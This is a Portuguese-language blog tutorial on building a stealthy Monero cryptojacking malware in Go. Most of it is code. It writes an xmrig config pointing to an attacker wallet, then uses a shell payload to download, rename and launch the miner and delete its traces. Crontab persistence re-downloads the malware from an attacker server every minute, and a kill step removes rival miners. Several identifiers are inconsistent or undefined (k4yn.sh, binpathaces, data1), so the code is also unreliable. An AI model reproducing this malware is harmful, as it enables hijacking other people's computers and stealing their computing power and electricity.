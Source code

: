 ```yaml
---
layout: post
title:  "Creating a silent mining malware with Go"
date:   2022-08-10 01:51:18 -0300
categories: ["Cyber Security"]

---
```

Com a popularidade das criptomoedas investir na mineração desses ativos certamente foi algo que passou pela cabeça de muitas pessoas, mas os altos custos de hardware e de energia fez com que essa atividade fosse inviável ou pouco rentável para muitas pessoas. Mas e se você pudesse apenas receber os lucros da mineração, sem se preocupar com os gastos em hardware e energia, e além disso usar centenas ou milhares de computadores para isso? Foi isso que motivou cyber criminosos a criar botnets com várias máquinas infectadas com esse tipo de malware conhecido como cryptojacking.


<i>Esse artigo foi escrito únicamente para fins de aprendizado para entusiastas ou profissionais de cybersegurança.</i>


## Etapa 1 - Criando o arquivo de configuração
Nessa primeira etapa iremos criar algumas configurações necessárias para o minerador funcionar.
```go
package main

import (
	"encoding/json"
	"io/ioutil"
	"os/exec"
)
// Aqui a gente define duas estruturas com algumas 
// configurações basicas do xmrig, não é importante entender essa parte.
type Config struct {
	Autosave   bool   `json:"autosave"`
	Cpu        bool   `json:"cpu"`
	Opencl     bool   `json:"opencl"`
	Background bool   `json:"background"`
	Cuda       bool   `json:"cuda"`
	Pools      []Pool `json:"pools"`
	Donate     int    `json:"donate-level"`
}

type Pool struct {
	Url       string `json:"url"`
	User      string `json:"user"`
	Keepalive bool   `json:"keepalive"`
	Tls       bool   `json:"tls"`
}

// Com essas duas estruturas declaradas podemos criar nossa 
// função que vai gerar um arquivo com nossas configurações:
func writeConfig() {
	wallet := "attackers_wallet_here" // aqui vai sua monero wallet

	config := Config{
		Autosave:   false,
		Cpu:        true,
		Opencl:     true,
		Background: true,
		Cuda:       false,
		Donate:     1,
		Pools: []Pool{
			{
				Url:       "pool.minexmr.com:443",
				User:      wallet,
				Keepalive: true,
				Tls:       true,
			},
		},
	}

	file, _ := json.MarshalIndent(config, "", " ")
  
  // escreve as configurações eme um arquivo
	_ = ioutil.WriteFile("config.json", file, 0644)
}
```


## Etapa 2 - Minerando
Antes de montar o payload precisamos pegar a url de download do minerador, podemos encontra-lo nas releases do próprio repositório do <a href="https://github.com/xmrig/xmrig/releases/tag/v6.16.3">xmrig</a>.

```go
func getMiner() {
  // guardamos a url do xmrig em uma variável
  minerLink := "https://github.com/xmrig/xmrig/releases/download/v6.16.3/xmrig-6.16.3-linux-static-x64.tar.gz"
}
```

Em seguida iremos montar o nosso payload em shellscript:

```sh
# tenta baixar o minerador usando wget
wget <xmrig_link>
# tenta baixar o minerador usando curl
curl -L <xmrig_link> 
# descompacta o minerador
tar -zvxf xmrig-6.16.3-linux-static-x64.tar.gz;
# move o arquivo de configuração, que criamos antes, para dentro da pasta do minerador
mv config.json xmrig-6.16.3; 
# renomeia o executável xmrig para um nome menos suspeito
cd xmrig-6.16.3; 
mv xmrig x01service;
# executa o minerador
./x01service; 
# espera o minerador executar e em seguida remove todos os arquivos referentes ao malware.
pid=$!; 
wait $pid; cd ..; 
rm xmrig-6.16.3-linux-static-x64.tar.gz;
pid=$!; 
wait $pid;
rm -R xmrig-6.16.3;
pid=$!;
wait $pid;
rm x01badMin3r;
```

Agora copiamos todo esse payload e colocamos dentro de uma string na nossa função getMiner, substituindo o xmrig_link pela váriavel minerLink que criamos anteriormente.

Em seguida o malware vai criar um arquivo .sh com esse payload dentro, dar permissão, e executar ele na máquina infectada.

```go
func getMiner() {
  minerLink := "https://github.com/xmrig/xmrig/releases/download/v6.16.3/xmrig-6.16.3-linux-static-x64.tar.gz"

  payload := "wget " + minerLink + "; curl -L " + minerLink + "; tar -zvxf xmrig-6.16.3-linux-static-x64.tar.gz; mv config.json xmrig-6.16.3; cd xmrig-6.16.3; mv xmrig x01service; ./x01service; pid=$!; wait $pid; cd ..; rm xmrig-6.16.3-linux-static-x64.tar.gz; pid=$!; wait $pid; rm -R xmrig-6.16.3; pid=$!; wait $pid; rm x01badMin3r;"

// transforma o payload em um array de bytes
  data := []byte(payload)

// cria o arquivo .sh
	ioutil.WriteFile("x01badMin3r.sh", data, 0644)

// da permissão e executa o arquivo .sh na maquina infectada
	exec.Command("chmod", "777", "k4yn.sh").Output()
	exec.Command("chmod", "+x", "k4yn.sh").Output()
	exec.Command("/bin/sh", "k4yn.sh").Output()
}
```

Apenas compilando esse código e executando na maquina infectada ela já vai começar a minerar monero e mandar para a carteira do atacante, mas vamos adicionar algumas outras funcionalidades.

## Etapa 3 - Persistência
Para esse passo você vai precisar hospedar seu malware em algum lugar.

Em seguida usaremos o crontab para fazer a persistência. 

O crontab basicamente é um scheduler que realiza alguma ação em determinado tempo, nesse caso usaremos ele para de minuto em minuto executar um script que baixa e executa novamente nosso malware caso o minerador não esteja mais minerando.

<i>Importante lembrar que o crontab normalmente funciona apenas no Linux</i>

```go
func persistence() {
	binpath:= "http://<server_ip>/<your_malware_name>"

	// script que cria o scheduler do crontab caso ainda não exista
	cr0nt := "if ! crontab -l | grep -q /tmp/cR0ntSc.sh  > /dev/null; then (crontab -l 2>/dev/null; echo \"* * * * * /tmp/cR0ntSc.sh\") | crontab -; (crontab -l 2>/dev/null; echo \"* * * * * /var/cR0ntSc.sh\") | crontab -; (crontab -l 2>/dev/null; echo \"* * * * * /mnt/cR0ntSc.sh\") | crontab -; (crontab -l 2>/dev/null; echo \"* * * * * /root/cR0ntSc.sh\") | crontab -; (crontab -l 2>/dev/null; echo \"* * * * * /cR0ntSc.sh\") | crontab -; (crontab -l 2>/dev/null; echo \"* * * * * /dev/cR0ntSc.sh\") | crontab -; else ls -a; fi"

	// script que será executado pelo crontab caso o minerador pare de minerar
	cr0nscript := "cd /tmp  cd /var/run  cd /mnt  cd /root  cd /; wget " + binpathaces + "; curl -O " + binpathaces + "; chmod +x *; ./x01badMin3r"

	// cria, da permissão, executa e remove os scripts criados 
	ioutil.WriteFile("cR0nt.sh", data1, 0644)
	ioutil.WriteFile("cR0ntSc.sh", data2, 0644)

	exec.Command("chmod", "777", "cR0nt.sh").Output()
	exec.Command("chmod", "+x", "cR0nt.sh").Output()
	exec.Command("chmod", "+777", "cR0ntSc.sh").Output()
	exec.Command("chmod", "+x", "cR0ntSc.sh").Output()
	exec.Command("/bin/sh", "cR0nt.sh").Output()
	exec.Command("rm", "cR0nt.sh").Output()
}
```

## Etapa 4 - Eliminando a concorrência e juntando as funções
Antes de juntarmos as funções na ordem correta vamos executar um comando que confere se já tem algum minerador xmrig na máquina infectada, se sim finaliza o processo.


```go
func main() {
	exec.Command("sudo", "pkill", "-9", "-f", "xmrig").Output()
	writeConfig()
	persistence()
	getMiner()
}
```

Finalizamos todas as funções do nosso simples malware, agora é só compilar e testar em alguma máquina que você tenha permissão.
